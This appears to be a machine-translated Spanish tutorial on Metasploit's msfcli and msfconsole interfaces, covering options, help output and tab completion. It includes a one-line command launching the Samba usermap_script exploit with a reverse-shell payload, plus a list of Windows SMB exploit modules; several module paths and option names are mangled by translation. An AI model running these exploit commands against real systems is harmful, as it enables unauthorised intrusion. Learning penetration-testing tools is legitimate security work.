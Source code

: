# Fundamentos de metasploit

## USO DE LA INTERFAZ MSFCLI

Al aprender a usar Metasploit, encontrará que hay muchas interfaces diferentes para usar con esta herramienta de piratería, cada una con sus propias fortalezas y debilidades. Como tal, no existe una interfaz perfecta para usar con la consola Metasploit, aunque MSFConsole es la única forma compatible de acceder a la mayoría de los comandos de Metasploit. Sin embargo, sigue siendo beneficioso sentirse cómodo con todas las interfaces de Metasploit.

### ¿QUÉ ES EL MSFCLI?

El  msfcli proporciona una potente interfaz de línea de comandos para el marco. Esto le permite agregar fácilmente exploits de Metasploit en cualquier script que pueda crear.

Nota: A partir de 2015-06-18, msfcli ha sido eliminado. Una forma de obtener una funcionalidad similar a través de msfconsole es usando la opción -x. Por ejemplo, el siguiente comando establece todas las opciones para samba / usermap_script y lo ejecuta contra un objetivo:

	┌─[root@cs-academy]─[~]
	└──╼ # msfconsole -x "use exploit / multi / samba / usermap_script; \
	set RHOST 172.16.194.172; \
	set PAYLOAD cmd / unix / reverse; \
	set LHOST 172.16.194.163; \
	run"

### Beneficios de la interfaz MSFcli

- Soporta el lanzamiento de exploits y módulos auxiliares
- Útil para tareas específicas
- Bueno para aprender
- Cómodo de usar al probar o desarrollar un nuevo exploit
- Buena herramienta para explotación puntual
- Excelente si sabe exactamente qué exploit y opciones necesita
- Maravilloso para usar en scripts y automatización básica

El único inconveniente real de msfcli es que no se admite tan bien como msfconsole y solo puede manejar un shell a la vez, lo que lo hace poco práctico para los ataques del lado del cliente. Tampoco es compatible con ninguna de las funciones de automatización avanzadas de msfconsole .

## USO DE LA INTERFAZ DE MSFCONSOLE

### ¿QUÉ ES LA MSFCONSOLE?

El msfconsole es probablemente la interfaz más popular para Metasploit Framework (MSF). Proporciona una consola centralizada "todo en uno" y le permite un acceso eficiente a prácticamente todas las opciones disponibles en MSF. MSFconsole puede parecer intimidante al principio, pero una vez que aprenda la sintaxis de los comandos, aprenderá a apreciar el poder de utilizar esta interfaz.

- Beneficios de usar MSFconsole
- Es la única forma compatible de acceder a la mayoría de las funciones dentro de Metasploit.
- Proporciona una interfaz basada en consola para el marco.
- Contiene la mayoría de las funciones y es la interfaz de MSF más estable
- Soporte completo de readline, tabulación y finalización de comandos
- Es posible la ejecución de comandos externos en msfconsole:
	msf> ping -c 1192.168.1.100
	[*] exec: ping -c 1192.168.1.100
	
	PING 192.168.1.100 (192.168.1.100) 56 (84) bytes de datos.
	64 bytes de 192.168.1.100: icmp_seq = 1 ttl = 128 tiempo = 10,3 ms
	
	--- 192.168.1.100 estadísticas de ping ---
	1 paquete transmitido, 1 recibido, 0% de pérdida de paquete, tiempo 0 ms
	rtt min / avg / max / mdev = 10.308 / 10.308 / 10.308 / 0.000 ms
	msf>


### LANZAMIENTO DE MSFCONSOLE
MSFconsole se inicia simplemente ejecutando msfconsole desde la línea de comandos. MSFconsole se encuentra en el directorio /usr/share/metasploit-framework/msfconsole .

La opción -q elimina el banner de inicio al iniciar msfconsole en modo silencioso.

	┌─[root@cs-academy]─[~]
	└──╼ # msfconsole -q
	msf>

Cómo utilizar el símbolo del sistema
Puede pasar -h a msfconsole para ver las otras opciones de uso disponibles.

	┌─[root@cs-academy]─[~]
	└──╼ # msfconsole -h
	Uso: msfconsole [opciones]
	
	Opciones comunes
	    -E, --environment ENTORNO El entorno de Rails. Utilizará la variable de entorno RAIL_ENV si está configurada. El valor predeterminado es producción si no se establece ninguna opción ni la variable de entorno RAILS_ENV.
	
	Opciones de base de datos
	    -M, --migration-path DIRECTORIO Especifica un directorio que contiene migraciones de base de datos adicionales
	    -n, --no-database Desactiva el soporte de la base de datos
	    -y, --yaml RUTA Especifica un archivo YAML que contiene la configuración de la base de datos
	
	Opciones de marco
	    -c ARCHIVO Carga el archivo de configuración especificado
	    -v, --version Mostrar versión
	
	Opciones de módulo
	        --defer-module-load Aplaza la carga del módulo a menos que se solicite explícitamente.
	    -m, --module-path DIRECTORIO Una ruta de módulo adicional
	
	
	Opciones de consola:
	    -a, --preguntar Preguntar antes de salir de Metasploit o aceptar 'salir -y'
	    -d, --defanged Ejecuta la consola como defanged
	    -L, --real-readline Usa la biblioteca Readline del sistema en lugar de RbReadline
	    -o, --output FILE Salida al archivo especificado
	    -p, --plugin PLUGIN Carga un complemento al inicio
	    -q, --quiet No imprime el banner al inicio
	    -r, --resource FILE Ejecuta el archivo de recursos especificado (- para stdin)
	    -x, --execute-command COMMAND Ejecuta la cadena especificada como comandos de consola (usar; para múltiples)
	    -h, --help Mostrar este mensaje

Ingresando help o un ? una vez en el símbolo del sistema de msf, se mostrará una lista de los comandos disponibles junto con una descripción de para qué se utilizan.

	msf> ayuda
	

### FINALIZACIÓN DE PESTAÑA (auto-completado)
MSFconsole está diseñada para ser de uso rápido y una de las características que ayuda a este objetivo es completar la pestaña. Con la amplia gama de módulos disponibles, puede resultar difícil recordar el nombre exacto y la ruta del módulo en particular que desea utilizar. Al igual que con la mayoría de los otros shells, ingresar lo que sabe y presionar 'Tab' le presentará una lista de opciones disponibles para usted o completará automáticamente la cadena si solo hay una opción. La finalización de tabulación depende de la extensión de ruby ​​readline y casi todos los comandos de la consola admiten la finalización de tabulación.

	use exploit/windows/dce
	use * netapi. *
	set LHOST
	show

Poner un objectivo
	
	set PAYLOAD windows/shell/
	Exp
	msf> usar exploit/windows/smb/ms
	use exploit/windows/smb/ms03_049_netapi
	use exploit/windows/smb/ms04_007_killbill
	use exploit/windows/smb/ms04_011_lsass
	use exploit /windows/smb/ms04_031_netdde
	use exploit/windows /smb/ms05_039_pnp
	use exploit /windows/smb/ms06_025_rasmans_reg
	use exploit/windows/smb/ms06_025_rras
	use exploit/windows/smb/ms06_040_netapi
	use exploit/windows/smb/ms06_066_nwapi
	use exploit/windows/smb/ms06_066_nwwks
	use exploit/windows/smb/ms06_070_wkssvc
	use exploit/windows/smb/ms07_029_msdns_zonename
	use exploit/windows/smb/ms08_067_netapi
	use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
	use exploit/windows/smb/ms10_046_shortcut_icon_dllloader
	use exploit/windows/smb/ms10_061_spoolss
	use exploit/windows/smb/ms15_020_shortcut_icon_dllloader


	msf> use exploit/windows/smb/ms08_067_netapi

MSFconsole es la interfaz más utilizada para Metasploit. Familiarizarse con estos  comandos de msfconsole le ayudará a lo largo de este curso y le dará una base sólida para trabajar con Metasploit en general.
